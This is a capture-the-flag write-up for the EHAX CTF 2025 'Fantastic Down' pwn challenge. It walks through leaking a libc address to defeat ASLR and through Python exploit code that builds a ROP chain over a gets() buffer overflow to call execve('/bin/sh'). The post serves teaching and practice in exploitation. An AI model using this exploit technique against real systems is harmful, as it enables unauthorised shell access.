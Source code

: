 ```yaml
---
layout: post
title: "Basic ret2libc + leak ASLR"
date: 2025-02-16 
categories: [pwn, userland, CTF]
tag: [ret2libc, leak, bypass, linux, easy] 
author: Zélétix
image: assets/image_ehax/page.png
description: ret2libc + leak libc
---
```


## EHAX CTF 2025 Fantastic Down

## Introduction to the Challenge

This challenge consisted of a simple ret2libc, where we had to exploit a vulnerability in the provided binary to obtain a remote shell. The binary was accompanied by its libc and dynamic loader (ld).

```console
$ ls
chall   ld-2.27.so   libc-2.27.so
```

## Step 1: Configuration with pwninit

Before starting the exploitation, it was crucial to properly prepare the environment. For this, we used ```pwninit```, a configuration tool that allows setting the correct addresses and offsets for the libc and dynamic loader (ld). Without this step, the addresses of the libc and ld would not be correctly mapped, making remote exploitation impossible.

Here's the command to execute to configure the environment with pwninit:

![alt text](../assets/image_ehax/pwninitCTF.png)

Once the environment was configured, we could move on to the exploitation.

## Step 2: Launching the Binary

When launching the binary, we get the following output:

![alt text](../assets/image_ehax/launch_binary.png)

What seems to be a series of hexadecimal values ​​​​of little interest, except for one address in particular which caught my attention: `0x7f3b6d3255e0`.

Indeed, this address corresponds to a libc leak, and from this information, we will be able to calculate the libc base and deduce interesting addresses like those of `execve` and other gadgets necessary for exploitation.

### Step 3: Address Identification

So we disassembled the code to understand where this address came from. By analyzing the assembly, we can able to identify that this address corresponds to the [wctrans](https://en.cppreference.com/w/c/string/wide/wctrans) function of libc.

Here is the disassembly of the code where we find the corresponding address:

![alt text](../assets/image_ehax/wctrans.png)

You can also check this address with GDB:

![alt text](../assets/image_ehax/gdb.png)

![alt text](../assets/image_ehax/gdb2.png)

### Step 4: Retrieve the Address

Once we confirmed that it was indeed the `wctrans` function, we wrote a Python script to extract this address. Here is the code used to retrieve the address of the leak:

```python
def exploit(r):
    output = r.recvuntil(b"Enter authcode:").decode()
    log.info(f"Output:\n{output}")

    match = re.search(r"(0x7[0-9a-f]{11})", output)
    if not match:
        log.error("Error no leak")
        r.close()
        exit(1)

    leaked_libc_addr = int(match.group(1), 16)
    log.success(f"leak libc address : {hex(leaked_libc_addr)}")



def main():
    r = conn()
    exploit(r)
    r.interactive()
```
output :

```console
[...SNIP...]
4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4D0x444F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4D
    Enter authcode:
[+] leak libc address : 0x7a86bc83c5e
[*] Switching to interactive mode
$
```
### Step 5: Calculation of the Libc Base

To calculate the libc base, we need to subtract the offset of the `wctrans` function (found in libc) by the leaked address. To do this, we use the following command to obtain the exact offset of `wctrans`:

```bash
└─$ readelf -s libc-2.27.so | grep "wctrans"
   130: 00000000001255e0   133 FUNC    WEAK   DEFAULT   13 wctrans@@GLIBC_2.2.5 <-- here
  1788: 0000000000125e40   117 FUNC    WEAK   DEFAULT   13 wctrans_l@@GLIBC_2.3
  2040: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS wctrans.c
  2041: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS towctrans.c
  2045: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS wctrans_l.c
  2046: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS towctrans_l.c
  3062: 0000000000125670    63 FUNC    LOCAL  DEFAULT   13 __GI___towctrans
  3993: 00000000001255e0   133 FUNC    LOCAL  DEFAULT   13 __wctrans
  5642: 0000000000125e40   117 FUNC    GLOBAL DEFAULT   13 __wctrans_l
  5732: 0000000000125e40   117 FUNC    WEAK   DEFAULT   13 wctrans_l
  6011: 0000000000125670    63 FUNC    GLOBAL DEFAULT   13 __towctrans
  6454: 0000000000125ec0    63 FUNC    GLOBAL DEFAULT   13 __towctrans_l
  7067: 0000000000125670    63 FUNC    WEAK   DEFAULT   13 towctrans
  7299: 0000000000125ec0    63 FUNC    WEAK   DEFAULT   13 towctrans_l
  7636: 00000000001255e0   133 FUNC    WEAK   DEFAULT   13 wctrans <-- here
```
The offset found is 0x1255e0. We can now calculate the base of the libc with the following code:

```python
    libc_offset_wctrans = libc.symbols["wctrans"]

    [...]

    libc_base = leaked_libc_addr - libc_offset_wctrans
    log.success(f"Libc base : {hex(libc_base)}")
```

```console
[...]
    Enter authcode:
[+] Leak libc address : 0x7a86bc83c5e
[+] Libc base : 0x7a86bb5e67e
[*] Switching to interactive mode
$
```
Great ! ASLR Bypass 😎 

### ASLR Bypass and Calculation of Useful Addresses

Now that we have the basis of libc, we can calculate the addresses of useful functions like `execve` and other ROP gadgets needed for exploitation. For example :

```python
    libc_offset_wctrans = libc.symbols["wctrans"]
    libc_execve_off = libc.symbols["execve"]

[...]

    execve_libc = libc_base + libc_execve_off
    bin_sh = libc_base + next(libc.search(b"/bin/sh\x00"))
    pop_rdx_rsi_ret = libc_base + 0x130539 # (libc)


    log.success(f"Address of execve : {hex(execve_libc)}")
    log.success(f"Address of /bin/sh : {hex(bin_sh)}")
    log.success(f"Gadget address pop rdx; pop rsi; ret : {hex(pop_rdx_rsi_ret)}")
```
Which gives:

```console
[+] leak libc adress : 0x7a86bc83c5e
[+] Libc base : 0x7a86bb5e67e
[+] Address of execve : 0x7a86bc4315e
[+] Address of /bin/sh : 0x7a86bd12406
[+] Address gadget pop rdx; pop rsi; ret : 0x7a86bc8ebb7
[*] Switching to interactive mode
$
```
### Step 6: Creating the ROP Channel

We know that the `Enter authcode:` entry is vulnerable to a **buffer overflow** due to the use of the `gets()` function, which allows us to overwrite the `RIP` register after 168 bytes. It is therefore necessary to construct an ROP chain using the gadgets and the addresses previously calculated.

Here is the ROPchain:

```python
    #gadget in binary 
    pop_rdi_ret = 0x0000000000400973 
    ret_gadget = 0x40061e 


    payload = b"A" * 168
    payload += p64(ret_gadget)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(pop_rdx_rsi_ret)
    payload += p64(0)  # RDX = NULL
    payload += p64(0)  # RSI = NULL
    payload += p64(execve_libc)
```
This payload triggers the call to the function [`execve`](https://man7.org/linux/man-pages/man2/execve.2.html) with the argument `/bin/sh`, which gives us a shell. 

The call to `execve` is done as follows:

```bash
execve("/bin/sh", NULL, NULL)
```

![alt text](../assets/image_ehax/REMOTE.png)

flag : 

```
EH4X{st4n_l33_c4m30_m1ss1ng_dOOoOoOoOoOOm}
```

Conclusion :

This challenge was an introduction to the [ret2libc](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjQr7rDsciLAxVvKvsDHQS1CnAQFnoECAkQAQ&url=https%3A%2F%2Fbeta.hackndo.com%2Fretour-a-la-libc%2F&usg=AOvVaw3Pn0sCU4kl1l7hVaffDd-i&opi=89978449) technique and the dangers present in a vulnerable program that leaks a libc address.

This article is also the first of two pwn challenges included in the EHAX 2025 CTF. I plan to complete the second one soon, so stay tuned! If you have any questions, feel free to message me on Discord: zeletix.